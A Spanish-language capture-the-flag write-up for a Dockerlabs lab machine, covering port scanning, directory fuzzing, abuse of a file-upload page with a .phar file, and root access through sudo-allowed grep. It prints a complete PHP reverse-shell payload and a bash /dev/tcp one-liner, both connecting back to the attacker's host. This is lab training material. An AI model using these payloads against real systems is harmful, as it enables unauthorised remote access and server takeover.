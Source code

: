 Desplegamos la máquina vulnerable poniendo en la terminal la línea de comandos **bash auto_deploy.sh dockerlabs.tar** en la carpeta donde se encuentre el contenido extraído del zip.<br>
  <ins>En este caso, la dirección IP de la máquina a vulnerar es la 172.17.0.2.<ins>

  ![image](https://github.com/user-attachments/assets/ff9c5327-9da1-489f-990d-e9884d2819ac)

Ahora, realizamos un escaneo de puertos de la máquina para revisar los puertos abiertos existentes y los posibles servicios a atacar mediante el uso de esos puertos.

  ![image](https://github.com/user-attachments/assets/670f4999-346e-4be4-ba7d-57c67d3be016)

Podemos ver que se encuentra abierto el puerto ***80***, correspondiente al servicio ***HTTP***.

Nos dirigimos al navegador y escribimos la dirección URL http://172.17.0.2:80:

  ![image](https://github.com/user-attachments/assets/2b8c643f-5d4e-4ef7-b436-109fd61e95ce)

Vamos a obtener los subdirectorios existentes en la página web para conseguir visualizar otras páginas que puedan darnos más información.
Debido a que revisando el código fuente de la página y mediante el uso del comando ***ffuf*** para realizar fuzzing no detectamos nuevas páginas, vamos a emplear un comando similar llamado ***gobuster***, con el que obtendremos las páginas existentes en distintos formatos. En este caso, vamos a buscar aquellas que tengan extensión *.html*, *.php*, *.py*, *.txt*.

  ![image](https://github.com/user-attachments/assets/d55fc3f2-7b12-4e2f-910a-fec5452c4269)

El resultado de ejecutar el comando nos devuelve varios subdirectorios y archivos existentes, nosotros nos fijaremos en "**machine.php**".

  ![image](https://github.com/user-attachments/assets/c60c3305-d9dd-433c-8561-26b51f714ca7)

La página que nos aparece sirve para realizar la subida de archivos al servidor web. Por ende, podríamos realizar un ataque LFI (Local File Inclusion) que nos ayude a ejecutar una reverse shell con la que poder acceder al sistema.

Al hacer clic en el botón nos aparece este mensaje por pantalla:

  ![image](https://github.com/user-attachments/assets/52da24b9-0a28-41d5-9aed-b1e1e4d22260)

En lugar de subir un fichero con extensión *.zip*, lo que haremos será utilizar un archivo de tipo PHP, probando con las distintas extensiones que tiene este lenguaje de programación. Después de probar con cada una, nos percatamos de que la extensión válida es ***.phar***.

  ![image](https://github.com/user-attachments/assets/e5762bda-453c-4b9c-b37c-7d30c6951b14)

  ![image](https://github.com/user-attachments/assets/07f68c9b-99ee-4f7e-8988-c758bbad691c)

	    /*<?php /**/
	      @error_reporting(0);@set_time_limit(0);@ignore_user_abort(1);@ini_set('max_execution_time',0);
	      $dis=@ini_get('disable_functions');
	      if(!empty($dis)){
	        $dis=preg_replace('/[, ]+/',',',$dis);
	        $dis=explode(',',$dis);
	        $dis=array_map('trim',$dis);
	      }else{
	        $dis=array();
	      }
	      
	    $ipaddr='172.17.0.1';
	    $port=443;
	
	    if(!function_exists('WrisYTZ')){
	      function WrisYTZ($c){
	        global $dis;
	        
	      if (FALSE !== stristr(PHP_OS, 'win' )) {
	        $c=$c." 2>&1\n";
	      }
	      $gPpr='is_callable';
	      $WEBa='in_array';
	      
	      if($gPpr('passthru')&&!$WEBa('passthru',$dis)){
	        ob_start();
	        passthru($c);
	        $o=ob_get_contents();
	        ob_end_clean();
	      }else
	      if($gPpr('system')&&!$WEBa('system',$dis)){
	        ob_start();
	        system($c);
	        $o=ob_get_contents();
	        ob_end_clean();
	      }else
	      if($gPpr('shell_exec')&&!$WEBa('shell_exec',$dis)){
	        $o=`$c`;
	      }else
	      if($gPpr('popen')&&!$WEBa('popen',$dis)){
	        $fp=popen($c,'r');
	        $o=NULL;
	        if(is_resource($fp)){
	          while(!feof($fp)){
	            $o.=fread($fp,1024);
	          }
	        }
	        @pclose($fp);
	      }else
	      if($gPpr('proc_open')&&!$WEBa('proc_open',$dis)){
	        $handle=proc_open($c,array(array('pipe','r'),array('pipe','w'),array('pipe','w')),$pipes);
	        $o=NULL;
	        while(!feof($pipes[1])){
	          $o.=fread($pipes[1],1024);
	        }
	        @proc_close($handle);
	      }else
	      if($gPpr('exec')&&!$WEBa('exec',$dis)){
	        $o=array();
	        exec($c,$o);
	        $o=join(chr(10),$o).chr(10);
	      }else
	      {
	        $o=0;
	      }
	    
	        return $o;
	      }
	    }
	    $nofuncs='no exec functions';
	    if(is_callable('fsockopen')and!in_array('fsockopen',$dis)){
	      $s=@fsockopen("tcp://172.17.0.1",$port);
	      while($c=fread($s,2048)){
	        $out = '';
	        if(substr($c,0,3) == 'cd '){
	          chdir(substr($c,3,-1));
	        } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
	          break;
	        }else{
	          $out=WrisYTZ(substr($c,0,-1));
	          if($out===false){
	            fwrite($s,$nofuncs);
	            break;
	          }
	        }
	        fwrite($s,$out);
	      }
	      fclose($s);
	    }else{
	      $s=@socket_create(AF_INET,SOCK_STREAM,SOL_TCP);
	      @socket_connect($s,$ipaddr,$port);
	      @socket_write($s,"socket_create");
	      while($c=@socket_read($s,2048)){
	        $out = '';
	        if(substr($c,0,3) == 'cd '){
	          chdir(substr($c,3,-1));
	        } else if (substr($c,0,4) == 'quit' || substr($c,0,4) == 'exit') {
	          break;
	        }else{
	          $out=WrisYTZ(substr($c,0,-1));
	          if($out===false){
	            @socket_write($s,$nofuncs);
	            break;
	          }
	        }
	        @socket_write($s,$out,strlen($out));
	      }
	      @socket_close($s);
    }

Nos dirigimos a "**/uploads**".

  ![image](https://github.com/user-attachments/assets/1bba13c6-5ffe-4e4c-8ae7-4d3125abbe0c)

Nos ponemos en escucha por NetCat por el puerto 443:

  ![image](https://github.com/user-attachments/assets/82c6c487-1fac-43e0-8f99-4bb1a42114a2)

Ejecutamos el archivo pwned.phar haciendo clic en él para realizar la reverse shell:

  ![image](https://github.com/user-attachments/assets/9c4450d6-197a-4701-9bad-4d93d34701c9)

Dentro de la conexión remota realizamos una reverse shell desde línea de comandos usando la página web de [Revshells](https://www.revshells.com/).

**bash -c "bash -i >& /dev/tcp/172.17.0.1/443 0>&1"**

  ![image](https://github.com/user-attachments/assets/ba780315-356d-4596-b25d-db1973c9b46a)

  ![image](https://github.com/user-attachments/assets/9f33505e-7fb1-4ed6-8174-2cbe66f57a2c)

Ahora ya nos encontramos dentro del sistema como el usuario *www-data*, por lo que ahora nos centraremos en la escalada de privilegios.

Al ejecutar el comando **sudo -l** para visualizar los archivos binarios que puede ejecutar el usuario www-data, vemos que este usuario puede ejecutar los binarios /usr/bin/cut y usr/bin/grep como usuario root, sin necesidad de ingresar su contraseña.

  ![image](https://github.com/user-attachments/assets/deb89837-d431-48d8-958e-32f9efc1d943)

Realizando búsquedas en directorios como */opt*, nos percatamos de que existe un archivo de texto llamado **nota.txt** que cuenta con esta información:

  ![image](https://github.com/user-attachments/assets/319a39e0-d789-45ef-8a3c-08fe91c07ff3)

Al parecer la contraseña del usuario root se encuentra almacenada en un archivo de texto en la ruta */root*.

Miramos en [GTFOBins](https://gtfobins.github.io/) acerca del binario ***/usr/bin/grep***.

  ![image](https://github.com/user-attachments/assets/c6d2b194-52f4-4e2d-ad24-fb8b088d28ba)

  ![image](https://github.com/user-attachments/assets/9d85430f-b191-4e16-83fe-7cf308d8ac4a)

Hemos obtenido la clave del usuario root, por lo que ahora tendremos todos los privilegios en el sistema.

  ![image](https://github.com/user-attachments/assets/23dd3669-1aa2-4f7f-9395-cf937d1bcca0)

La escalada de privilegios se ha realizado de manera exitosa.

Una vez finalizamos con la máquina de Dockerlabs presionamos **Ctrl+C** para eliminarla.

  ![image](https://github.com/user-attachments/assets/0d1d2df8-ac39-414e-93d7-e827c268f453)

